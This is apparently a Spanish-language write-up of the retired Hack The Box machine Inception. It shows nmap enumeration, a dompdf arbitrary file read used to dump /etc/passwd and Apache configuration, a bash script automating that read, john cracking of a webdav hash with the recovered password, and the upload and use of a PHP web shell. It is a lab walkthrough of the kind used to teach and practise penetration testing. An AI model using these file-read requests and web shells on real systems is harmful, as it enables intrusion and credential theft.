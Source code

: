 ```yaml
---
layout: post
title:  "Maquina Retirada Inception de Hack The Box (Necesario VIP)"
description: En esta ocasion empezaremos con el Writeup de la maquina de HackTheBox llamada INCEPTION
tags: HTB, dompdf, Remote File Read, squidproxy, webdav, CronTabs, Web Hacking, Maquinas Retiradas, Writeup
---
```


# Inception ~ Hack The Box

Realizamos el Primer escaneo con Nmap
```bash
# nmap -p- --open -sS --min-rate 5000 -Pn -n -vvv 10.10.10.67
```
Realizamos el segundo escaneo para averiguar la version y servicios en los puerto abiertos
```bash
# nmap -sC -sV -p80,3128 -Pn -n -v 10.10.10.67

PORT     STATE SERVICE    VERSION
80/tcp   open  http       Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Inception
3128/tcp open  http-proxy Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
```

Procedemos a enumerar el servicio `http` con la herramienta `whatweb`
```bash
# whatweb http://10.10.10.67                                                                                                                                                     
http://10.10.10.67 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.67], Script, Title[Inception]
```
Procedemos a hechar un ojo a la pagina web y al codigo fuente de la misma.
```bash
curl -s -X GET "http://10.10.10.67/"
<!-- Todo: test dompdf on php 7.x -->
```
Encontramos al final de codigo fuente algo sobre `DOMPDF`
Investigamos a nivel google que es DOMPDF:   `DOMPDF es un conversor de HTML a PDF escrito en PHP`
Buscamos Exploits Github para DOMPDF:   Encontramos este exploit de Arbitrary File Read en github-- `https://github.com/defarbs/dompdf-exploit`
```bash
curl -s -X GET "10.10.10.67/dompdf/dompdf.php?input_file=php://filter/read=convert.base64-encode/resource=/etc/passwd"
```

Tratamos el `Output del comando anterior para verlo todo guay y decodificarlo`
```bash
# curl -s -X GET "10.10.10.67/dompdf/dompdf.php?input_file=php://filter/read=convert.base64-encode/resource=/etc/passwd" | grep -E '[.*?]' | grep -v  '%' | grep -v '/MediaBox' | grep -v '0.000' | awk '{print $8}' | tr -d '[()]' | base64 -d

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
sshd:x:106:65534::/var/run/sshd:/usr/sbin/nologin
cobb:x:1000:1000::/home/cobb:/bin/bash
```
Identificamos un usuario llamado `cobb` 
Ahora que tenemos la vulnerabilidad de leer archivos de la maquina victima vamos a buscar por recursos interesantes en el sistema.

Enumerando el sistema atraves de un script en bash
```bash
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: Dompdf-RemoteFileRead.sh
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ #/bin/bash
   2   │ 
   3   │ # Arbitrary File Read Machine Inception HTB HacktheBox
   4   │ 
   5   │ file='$1'
   6   │ 
   7   │ if file != '$0' 2>/dev/null; then
   8   │ 
   9   │     curl -s -X GET "10.10.10.67/dompdf/dompdf.php?input_file=php://filter/read=convert.base64-encode/resource=$1" | grep -E '[.*?]' | grep -v  '%' | grep -v  '/MediaBox' | grep -v '0.000' | awk '{print $
       │ 8}' | tr -d '[()]' | base64 -d
  10   │ 
  11   │ fi
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
``` 
Procedemos a enumerar el la ruta `/etc/sites-availble/`
```bash
# ./Dompdf-RemoteFileRead.sh /etc/apache2/sites-available/000-default.conf                                                                                                                                 
<VirtualHost *:80>
        # The ServerName directive sets the request scheme, hostname and port that
        # the server uses to identify itself. This is used when creating
        # redirection URLs. In the context of virtual hosts, the ServerName
        # specifies what hostname must appear in the request's Host: header to
        # match this virtual host. For the default virtual host (this file) this
        # value is not decisive as it is used as a last resort host regardless.
        # However, you must set it for any further virtual host explicitly.
        #ServerName www.example.com

        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        # Available loglevels: trace8, ..., trace1, debug, info, notice, warn,
        # error, crit, alert, emerg.
        # It is also possible to configure the loglevel for particular
        # modules, e.g.
        #LogLevel info ssl:warn

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined

        # For most configuration files from conf-available/, which are
        # enabled or disabled at a global level, it is possible to
        # include a line for only one particular virtual host. For example the
        # following line enables the CGI configuration for this host only
        # after it has been globally disabled with "a2disconf".
        #Include conf-available/serve-cgi-bin.conf
        Alias /webdav_test_inception /var/www/html/webdav_test_inception
        <Location /webdav_test_inception>
                Options FollowSymLinks
                DAV On
                AuthType Basic
                AuthName "webdav test credential"
                AuthUserFile "/var/www/html/webdav_test_inception/webdav.passwd"
                Require valid-user
        </Location>
</VirtualHost>

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
```

Encontramos la ruta a  `/webdav_test_inception/webdav.passwd`
Usamos nuestro script para visualizar el archivo en la ruta `/var/www/html/webdav_test_inception/webdav.passwd`
```bash
# ./Dompdf-RemoteFileRead.sh /var/www/html/webdav_test_inception/webdav.passwd                                                                                                   

"webdav_tester": "$apr1$8rO7Smi4$yqn7H.GvJFtsTou1a7VME0"
```
Encontramos un hash que vamos a intentar romper con john:
```bash
# john --wordlist=/usr/share/wordlists/rockyou.txt hash
# john --show hash                                                                                                                                                               

"webdav_tester": "babygurl69"

1 password hash cracked, 0 left
```

Como vemos tenemos un webdav podemos intentar usar la herramienta `cadaver` para subir archivos atraves del `webdav`
```bash
cadaver http://10.10.10.67/webdav_test_inception/
Nombre de usuario: webdav_tester
Contraseña: 

dav:/webdav_test_inception/> ls
Listando colección `/webdav_test_inception/': exitoso.
        webdav.passwd                         52  nov  8  2017

dav:/webdav_test_inception/> put webshell.php
Transferiendo webshell.php a '/webdav_test_inception/webshell.php':
 Progreso: [                              ]   0,0% of 36 bytes Progreso: [=============================>] 100,0% of 36 bytes exitoso.
```

Nos subimos el siguiente script en `webshell.php`
```bash
# cat webshell.php                                                                                                                                                              
<?php
        system($_REQUEST['cmd']);
?>
```

Nos autenticamos al webdav por http y procedemos a apuntar al script webshell.php almacenado en el webdav
```bash
http://10.10.10.67/webdav_test_inception/webshell.php?cmd=whoami
www-data
```
